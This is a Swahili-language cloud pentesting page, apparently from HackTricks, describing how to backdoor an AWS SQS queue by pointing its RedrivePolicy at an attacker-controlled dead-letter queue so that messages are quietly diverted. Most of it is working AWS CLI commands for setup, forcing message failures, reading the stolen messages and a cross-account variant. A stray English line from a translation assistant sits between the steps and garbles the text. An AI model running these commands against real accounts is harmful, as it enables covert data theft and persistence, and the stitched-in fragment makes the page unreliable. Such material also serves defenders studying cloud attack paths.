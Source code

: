 # AWS - SQS DLQ Backdoor Persistence via RedrivePolicy/RedriveAllowPolicy

{{#include ../../../../banners/hacktricks-training.md}}

Abusa SQS Dead-Letter Queues (DLQs) ili kunyonya data kwa siri kutoka kwenye queue ya chanzo ya mwathiriwa kwa kuelekeza RedrivePolicy yake kwenye queue inayodhibitiwa na mshambuliaji. Kwa maxReceiveCount ndogo na kwa kuchochea au kusubiri kushindwa kwa usindikaji wa kawaida, ujumbe unaelekezwa moja kwa moja kwenye DLQ ya mshambuliaji bila kubadilisha producers au Lambda event source mappings.

## Ruhusa Zilizotumiwa Vibaya
- sqs:SetQueueAttributes kwenye queue ya chanzo ya mwathiriwa (kuweka RedrivePolicy)
- sqs:SetQueueAttributes kwenye DLQ ya mshambuliaji (kuweka RedriveAllowPolicy)
- Hiari kwa kuharakisha: sqs:ReceiveMessage kwenye queue ya chanzo
- Hiari kwa maandalizi: sqs:CreateQueue, sqs:SendMessage

## Mtiririko wa Akaunti Ile Ile (allowAll)

Maandalizi (akaunti ya mshambuliaji au principal aliyevamiwa):
```bash
REGION=us-east-1
# 1) Create attacker DLQ
ATTACKER_DLQ_URL=$(aws sqs create-queue --queue-name ht-attacker-dlq --region $REGION --query QueueUrl --output text)
ATTACKER_DLQ_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_DLQ_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Allow any same-account source queue to use this DLQ
aws sqs set-queue-attributes \
--queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"allowAll\"}"}'
```
Utekelezaji (endesha kama principal aliyevamiwa katika akaunti ya mwathiriwa):
```bash
# 3) Point victim source queue to attacker DLQ with low retries
VICTIM_SRC_URL=<victim source queue url>
ATTACKER_DLQ_ARN=<attacker dlq arn>
aws sqs set-queue-attributes \
--queue-url "$VICTIM_SRC_URL" --region $REGION \
--attributes '{"RedrivePolicy":"{\"deadLetterTargetArn\":\"'"$ATTACKER_DLQ_ARN"'\",\"maxReceiveCount\":\"1\"}"}'
```
Kuongeza kasi (hiari):
```bash
# 4) If you also have sqs:ReceiveMessage on the source queue, force failures
for i in {1..2}; do \
aws sqs receive-message --queue-url "$VICTIM_SRC_URL" --region $REGION \
--max-number-of-messages 10 --visibility-timeout 0; \
done
```
I don't have the file content. Please paste the markdown from src/pentesting-cloud/aws-security/aws-persistence/aws-sqs-persistence/aws-sqs-dlq-backdoor-persistence.md and I will translate the relevant English text to Swahili following the rules.
```bash
# 5) Confirm messages appear in attacker DLQ
aws sqs receive-message --queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--max-number-of-messages 10 --attribute-names All --message-attribute-names All
```
Mfano wa ushahidi (Vigezo vinajumuisha DeadLetterQueueSourceArn):
```json
{
"MessageId": "...",
"Body": "...",
"Attributes": {
"DeadLetterQueueSourceArn": "arn:aws:sqs:REGION:ACCOUNT_ID:ht-victim-src-..."
}
}
```
## Cross-Account Variant (byQueue)
Weka RedriveAllowPolicy kwenye attacker DLQ ili kuruhusu tu ARNs maalum za source queue za victim:
```bash
VICTIM_SRC_ARN=<victim source queue arn>
aws sqs set-queue-attributes \
--queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"byQueue\",\"sourceQueueArns\":[\"'"$VICTIM_SRC_ARN"'\"]}"}'
```
## Madhara
- Data exfiltration/persistence kwa siri na kwa kudumu kwa kupeleka kiotomatiki ujumbe ulioshindwa kutoka kwenye SQS source queue ya mwathirika hadi DLQ inayodhibitiwa na mshambuliaji, na kusababisha kelele ndogo ya kiutendaji na bila mabadiliko kwa producers au Lambda mappings.

{{#include ../../../../banners/hacktricks-training.md}}
